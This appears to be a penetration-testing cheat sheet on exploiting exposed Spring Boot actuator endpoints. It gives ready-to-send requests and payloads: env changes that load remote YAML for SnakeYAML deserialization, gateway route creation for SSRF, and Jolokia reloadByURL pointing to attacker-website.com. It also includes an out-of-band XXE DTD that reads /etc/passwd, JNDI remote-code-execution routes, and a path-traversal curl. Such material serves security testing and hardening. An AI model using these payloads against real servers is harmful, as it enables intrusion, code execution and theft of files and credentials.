




Spring Boot actuators overview
Spring Boot includes a number of additional features called actuators to help monitor and control your application when you push it to production. Actuators allow you to control and monitor your application using either HTTP or JMX endpoints. Auditing, health and metrics gathering can also open a hidden door to the server if the application has been misconfigured.
Spring Boot includes a number of built-in endpoints (endpoints for Spring Boot 1.x) and lets you add your own. For example, the health endpoint provides basic application health information.
Each individual endpoint can be enabled or disabled and exposed (made remotely accessible) over HTTP or JMX. An endpoint is considered to be available when it is both enabled and exposed. The built-in endpoints will only be auto-configured when they are available. Most applications choose exposure via HTTP, where the ID of the endpoint along with a prefix of /actuator is mapped to a URL. For example, by default, the health endpoint is mapped to /actuator/health.
To learn more about the actuator's endpoints and their request and response formats, see here.
env
Exposes properties from Spring's ConfigurableEnvironment.
Spring Boot 2.x uses json instead of x-www-form-urlencoded for property change requests via the
envendpoint.Information returned by the
envandconfigpropsendpoints can be somewhat sensitive so keys matching a certain pattern are sanitized by default. However, there are still ways to get the plaintext value for such keys, see here.
spring.datasource.tomcat.validationQuery
spring.datasource.tomcat.validationQuery allows you to specify any SQL query, and it will be automatically executed against the current database. It could be any statement, including insert, update, or delete.

spring.datasource.tomcat.url
spring.datasource.tomcat.url allows you to modify the current JDBC connection string.
The problem here is that when the application establishing the connection to the database is already running, just updating the JDBC string has no effect. But you can try using spring.datasource.tomcat.max-active to increase the number of simultaneous database connections.
Thus, you can change the JDBC connection string, increase the number of connections, and then send many requests to the application to simulate a heavy load. Under load, the application will create a new database connection with an updated malicious JDBC string.

spring.cloud.bootstrap.location
spring.cloud.bootstrap.location allows you to load external config and parse it in YAML format.
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/json
Content-Length: 76
{"spring.cloud.bootstrap.location":"http://attacker-website.com/yaml-payload.yml"}
And you also need to call the /refresh endpoint.
POST /refresh HTTP/1.1
Host: 127.0.0.1:8090
Content-Length: 0
When the YAML configuration is loaded from a remote server, it is parsed by the SnakeYAML library, which is susceptible to deserialization attacks. The payload can be generated using marshalsec research.
Properties requiring /restart call
These properties have no effect unless the /restart endpoint is called, which restarts the entire ApplicationContext and is disabled by default.
spring.datasource.url- database connection string; used only for the first connectionspring.datasource.jndiName- databases JNDI string; used only for the first connectionspring.datasource.tomcat.dataSourceJNDI- databases JNDI string; not used at allspring.cloud.config.uri- spring cloud config url; have no effect after app start, only the initial values are usedspring.datasource.hikari.connection-test-query- the query to be executed before granting the connection from the pool; see Remote Code Execution in Three Acts: Chaining Exposed Actuators and H2 Database Aliases in Spring Boot 2spring.h2.console.enabled- bool value which enables/disables the embedded GUI console of the H2 database; see H2 database console JNDI injection
There are many other interesting properties, but most of them do not take effect immediately after being changed
gateway
The /gateway actuator endpoint lets you monitor and interact with a Spring Cloud Gateway application. In other words, you can define routes for the appkication and use /gateway actuator to trigger requests according to these routes.
There are at least the following issues:
- Routes can provide access to hidden or internal endpoints, which can be misconfigured or vulnerable. You can fetch all available routes via
GET-request to/actuator/gateway/routes Full SSRF if adding routes does not require administrative permissions. The next request will create a route to localhost:
POST /actuator/gateway/routes/new_route HTTP/1.1 Host: app Content-Type: application/json { "predicates": [ { "name": "Path", "args": { "_genkey_0": "/new_route/**" } } ], "filters": [ { "name": "RewritePath", "args": { "_genkey_0": "/new_route(?<path>.*)", "_genkey_1": "/${path}" } } ], "uri": "https://localhost", "order": 0 }Send refresh request to apply new route:
POST /actuator/gateway/refresh HTTP/1.1 Host: app Content-Type: application/json { "predicate": "Paths: [/new_route], match trailing slash: true", "route_id": "new_route", "filters": [ "[[RewritePath /new_route(?<path>.*) = /${path}], order = 1]" ], "uri": "https://localhost", "order": 0 }
References:
trace/httptrace
Displays HTTP trace information (by default, the last 100 HTTP request-response exchanges). Requires an HttpTraceRepository bean.
mappings
Displays a collated list of all @RequestMapping paths.
sessions
Allows retrieval and deletion of user sessions from a Spring Session-backed session store. Requires a Servlet-based web application using Spring Session.
shutdown
Lets the application be gracefully shutdown. Disabled by default.
heapdump
Returns an hprof heap dump file.
jolokia
Exposes JMX beans over HTTP (when Jolokia is on the classpath, not available for WebFlux). Requires a dependency on jolokia-core.
Logback::reloadByURL
You can list all available MBeans actions using the URL:
http://127.0.0.1:8090/jolokia/list
Most MBeans actions just expose some system data, but if the reloadByURL action provided by the Logback library exists:

the logging configuration can be reload from an external URL:
http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml
Out-Of-Band XXE
Logback uses XML configuration parsed by the SAXParser XML parser with external entities enabled. You can exploit this feature to trigger an Out-Of-Band XXE:
<!-- logback.xml -->
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://attacker-website.com/file.dtd">%remote;%int;]>
<a>&trick;</a>
<!-- file.dtd -->
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">

RCE via JNDI
The Logback configuration has the feature Obtaining variables from JNDI. In the XML configuration file you can include a tag like:
<insertFromJNDI env-entry-name="java:comp/env/appName" as="appName"/>
In this case, the env-entry-name attribute will be passed to the DirContext.lookup() method. Providing an arbitrary name to the lookup method can lead to remote code execution via remote class loading.
See here:
Tomcat::createJNDIRealm
One of the MBeans of Tomcat (embedded into Spring Boot) is createJNDIRealm, which allows you to create JNDIRealm vulnerable to JNDI injection. Details of exploitation see here and here.
Jookia CVEs
logfile
Returns the contents of the logfile (if logging.file.name or logging.file.path properties have been set). Supports the use of the HTTP Range header to retrieve part of the log file's content.
logview
spring-boot-actuator-logview version before 0.2.13 is vulnerable to path traversal that allows you to retreive arbitrary files.
# retreaving /etc/passwd
$ curl http://localhost:8887/manage/log/view?filename=/etc/passwd&base=../../../../../
References:
dump/threaddump
Performs a thread dump.